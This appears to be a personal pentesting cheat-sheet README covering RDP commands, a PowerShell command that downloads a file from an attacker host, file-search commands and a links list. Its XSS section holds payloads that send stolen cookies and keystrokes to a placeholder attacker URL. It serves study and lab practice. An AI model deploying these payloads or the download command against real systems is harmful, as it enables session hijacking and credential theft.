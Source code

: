  <h1 align='center'> Penetration time</h1>

<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!-->
</ol>

<h2 align='center' id='n1'><em>Commands</em></h2> 
<h3>Remote Desktop Protocol (rdp)</h3>
  <code>xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:&lt;MACHINE_IP> /u:&lt;User> /p:&lt;'Password'></code>
  <p><code>xfreerdp /v:&lt;IP> /u:&lt;Username> /p:&lt;Password> +clipboard<></code>
	
<h3>To get stable shell from unstable from PowerShell</h3>
  <code>powershell -c "Invoke-WebRequest -Uri 'http://&lt;IP>:&lt;PORT>/&lt;filename>' -OutFile 'C:\Windows\Temp\&lt;filename>'"</code>
  
<h3>Commands to find in:</h3>
<h4>Linux</h4>
	<p> <code>find / -type f</code> - Find all files in / directory
	<p> <code>find / -type f | grep 'flag'</code> - Find all files with 'flag' in file name
	<p> <code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code> - Find all path files with ‘config’ 

<h2 align='center' id='n2'><em>Payloads</em></h2>
    <h3>XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <code><script>alert('Success XSS!');</script></code>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <code><script>fetch('url/steal?cookie=' + btoa(document.cookie));</script></code>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <code><scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script></code>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> - <code><script>user.changeEmail('your@email.com');</script></code>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - <code>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e</code>
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 align='center' id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Dafault Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Dafault Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 align='center' id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Very useful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: crunch 3 3 12345qwerty -o cranch.txt.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and python3 username_generator.py -h shows the tool's help message and optional arguments.
	</ol>
